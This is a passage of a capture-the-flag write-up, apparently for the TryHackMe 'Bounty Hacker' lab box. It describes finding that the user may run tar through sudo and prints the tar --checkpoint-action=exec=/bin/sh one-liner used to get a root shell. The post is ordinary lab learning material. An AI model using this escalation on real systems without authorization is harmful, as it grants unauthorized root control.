 For this step i have tried different ways. 
First step was, to check if i can run any commands with sudo. but the "sudo -l" command was protected with password. 
so i thought, ok, i don't have the password for the user. I will go for LinPeas to check if any other tings are good for Priv Escalation. 

Uploaded Linpeas and run it. But Linpeas give me no Information about any possibilitys. 

I was searching on the box for some Priv-Escalation things i can use. 

Then i was thinking about the "sudo -l" command. I tried it with the password from the ssh-login. And this password was valid. 

```sh
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Password is working, and the output shows me, that i can run "tar" as sudo user without password. 

Perfect lets check GTFOBins for Priv-Escalation. 

Found the way: 
```sh
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
```

Wohoo, i am root. 
Last step is to cat the root file, this was located in "/root/root.txt" 
```sh
# cat root.txt
THM{8***********r}
```

# Conclusion

This Box was nothing new to me. Only thing with the command "sudo -l" and the password. But thanks it came to my mind that i have a password for the user. Other wise it would be really frustrated. 
